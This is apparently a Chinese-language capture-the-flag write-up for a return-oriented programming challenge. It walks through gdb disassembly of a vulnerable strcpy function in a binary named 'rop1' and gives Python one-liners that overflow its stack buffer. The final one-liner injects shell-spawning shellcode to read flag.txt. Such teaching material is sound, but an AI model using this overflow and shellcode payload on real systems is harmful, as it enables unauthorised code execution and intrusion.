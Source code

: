 # ROP 1
執行檔被ASLR保護的時候，就是使用如標題[return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)的時候了！
 * 編譯好後，打開gdb，看提示說的`%eax`有什麼用：
```
$ gdb -q rop1
Reading symbols from rop1...(no debugging symbols found)...done.
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048e60 <+0>:	push   %ebp
   0x08048e61 <+1>:	mov    %esp,%ebp
   0x08048e63 <+3>:	sub    $0x48,%esp; buf
   0x08048e66 <+6>:	sub    $0x8,%esp; name
   0x08048e69 <+9>:	pushl  0x8(%ebp); argument name of strcpy
   0x08048e6c <+12>:	lea    -0x48(%ebp),%eax; load buf -> %eax!
   0x08048e6f <+15>:	push   %eax; argument buf of strcpy
   0x08048e70 <+16>:	call   0x80481e0; calling strcpy
   0x08048e75 <+21>:	add    $0x10,%esp
   0x08048e78 <+24>:	leave
   0x08048e79 <+25>:	ret
End of assembler dump.
```
 * `%eax`存著指到buf的pointer，那麼有什麼function會用到呢？
```
(gdb) disass be_nice_to_people
Dump of assembler code for function be_nice_to_people:
   0x08048e3c <+0>:	push   %ebp
   0x08048e3d <+1>:	mov    %esp,%ebp
   0x08048e3f <+3>:	sub    $0x18,%esp
   0x08048e42 <+6>:	call   0x806c2d0 <getegid>
   0x08048e47 <+11>:	mov    %eax,-0xc(%ebp); here
   0x08048e4a <+14>:	sub    $0x4,%esp
   0x08048e4d <+17>:	pushl  -0xc(%ebp)
   0x08048e50 <+20>:	pushl  -0xc(%ebp)
   0x08048e53 <+23>:	pushl  -0xc(%ebp)
   0x08048e56 <+26>:	call   0x806c2e0 <setresgid> ; !!!!
   0x08048e5b <+31>:	add    $0x10,%esp
   0x08048e5e <+34>:	leave  
   0x08048e5f <+35>:	ret
```
 * 所以`be_nice_to_people`的`setresgid`會直接把`%eax`中的值，push到stack上當作參數，這就是我們要的！
 * 目前stack長相：
```
| <ret addr>
| <old %ebp>   <= %ebp
| <buf..0x48
|  bytes..long>
| <addr-name>
| <addr -buf>   <= %esp
```
 * overflow <ret addr> 成`be_nice_to_people` addr = ```0x8048e3c```
```bash
$ ./rop1 "$(python -c 'print "A" * 0x48 + "A" * 4 + "\x3c\x8e\x04\x08"')"
Illegal instruction (core dumped)
```
 * bingo！接下來，替換成開啟shell的shellcode：
```
$ ./rop1 "$(python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A" * 36 + "\x3c\x8e\x04\x08"')"
$ ls
Makefile    flag.txt    rop1    rop1.c
$ cat flag.txt
theres_no_need_to_guess
```
